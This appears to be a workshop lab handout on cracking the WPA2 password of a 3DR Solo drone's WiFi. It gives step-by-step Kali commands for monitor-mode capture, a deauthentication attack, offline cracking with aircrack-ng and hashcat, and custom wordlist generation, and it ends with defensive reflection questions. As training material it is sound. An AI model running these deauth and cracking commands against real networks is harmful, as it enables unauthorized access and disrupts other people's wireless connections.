

LAB60 minutes
Day 2 – RF Communications
Hack Our Drone Workshop — Dark Wolf Solutions
Kali Linux laptop
TP-Link USB WiFi adapter (supports monitor mode)
Target: 3DR Solo SoloLink WiFi
WPA2-PSK (Pre-Shared Key) authentication uses a 4-way handshake to derive session keys:
Client AP
| |
|--- Association Request ------>|
|<-- ANonce (random) -----------| (Message 1)
|--- SNonce + MIC ------------->| (Message 2)
|<-- GTK + MIC (encrypted) ----| (Message 3)
|--- ACK --------------------- >| (Message 4)
The 4-way handshake is captured from the air. The PSK can then be brute-forced offline because:
The attacker captures messages 1 and 2 (both contain public nonces)
The PSK is used to derive the PMK and then the PTK
An attacker can test candidate passwords: PMK = PBKDF2(HMAC-SHA1, password, SSID, 4096, 256)
In VirtualBox you need to confgure the USB passtrough to be able to see the WiFi card in your Kali Linux.
Realtek 802.11ac WLAN Adapter
# Check your WiFi adapters
iwconfig
ip link show
# Identify the TP-Link adapter (usually wlan1)
# Kill processes that interfere with monitor mode
sudo airmon-ng check kill
# Start monitor mode on the TP-Link adapter
sudo airmon-ng start wlan1
# Verify monitor mode is active
iwconfig
# Should show wlan1mon (or similar) in Monitor mode
# Scan for available networks
sudo airodump-ng wlan1mon
# Look for your target:
# BSSID: (MAC address of Solo/Specta AP)
# ESSID: SoloLink_XXXXXXXX or SpectraXXXXXX
# CH: channel number
# ENC: WPA2
# Note the BSSID and channel for your target
# Start targeted capture (replace with your target values)
sudo airodump-ng wlan1mon \
--bssid <TARGET_BSSID> \
--channel <TARGET_CH> \
--write solo-handshake
# airodump-ng will write files:
# solo-handshake-01.cap (packet capture)
# solo-handshake-01.csv (scan log)
Option A — wait
Wait for a device to connect or reconnect to the AP
This can take several minutes
Option B — deauth attack
# In a separate terminal: send deauth packets to force reconnection
sudo aireplay-ng --deauth 3 -a <TARGET_BSSID> wlan1mon
# -a: AP BSSID
# Sends 3 deauthentication frames → client will reconnect → handshake captured
In airodump-ng output, look for:
[ WPA handshake: XX:XX:XX:XX:XX:XX ]
This confirms the handshake was captured.
# Use rockyou.txt wordlist (included in Kali)
sudo aircrack-ng solo-handshake-01.cap \
-w /usr/share/wordlists/rockyou.txt \
-e SoloLink_XXXXXXXX
# If successful:
# KEY FOUND! [ sololink ]
Create a targeted wordlist based on OSINT about the target:
# Using crunch to generate all 8-character numeric passwords
crunch 8 8 0123456789 > custom-wordlist.txt
# Using cewl to generate words from a website
cewl https://3dr.com -d 2 -m 5 > 3dr-wordlist.txt
# Combine lists
cat rockyou.txt 3dr-wordlist.txt > combined.txt
aircrack-ng solo-handshake-01.cap -w combined.txt -e SoloLink_XXXXXXXX
# Convert cap file to hashcat format
hcxpcapngtool -o hash.hc22000 solo-handshake-01.cap
# Run hashcat (WPA2 = mode 22000)
hashcat -m 22000 hash.hc22000 /usr/share/wordlists/rockyou.txt
Some WiFi adapters have trouble capturing full 20/40 MHz channel width frames. The narrow channel bandwidth technique reconfigures the AP to use a narrower channel width, making capture more reliable.
How it works:
Access the target router's admin interface (possible if you have credentials from a prior step)
Set channel bandwidth to 5 MHz or 10 MHz
This reduces the signal bandwidth — easier to capture with a narrower-filter SDR
# If you have access to the OpenWRT router (GL.iNet from the UART lab):
ssh root@192.168.8.1
# Edit wireless config
vim /etc/config/wireless
# Find: option htmode 'HT20'
# Change to: option chanbw '10'
# Apply:
wifi
# On Kali, configure adapter to match narrow channel
iwconfig wlan1mon channel 6
# Use airmon-ng with the narrower channel
sudo airodump-ng wlan1mon --channel 6
# Stop monitor mode
sudo airmon-ng stop wlan1mon
# Connect to target WiFi with cracked password
nmcli dev wifi connect "SoloLink_XXXXXXXX" password "sololink"
# Verify connectivity
ip a
ping 10.1.1.1
How long did the crack take? What does this tell you about password complexity requirements?
The default SoloLink password is sololink — how would you find this without cracking?
What would make this WiFi network significantly harder to crack?
At what point in the attack chain does RF-layer security fail vs. application-layer security?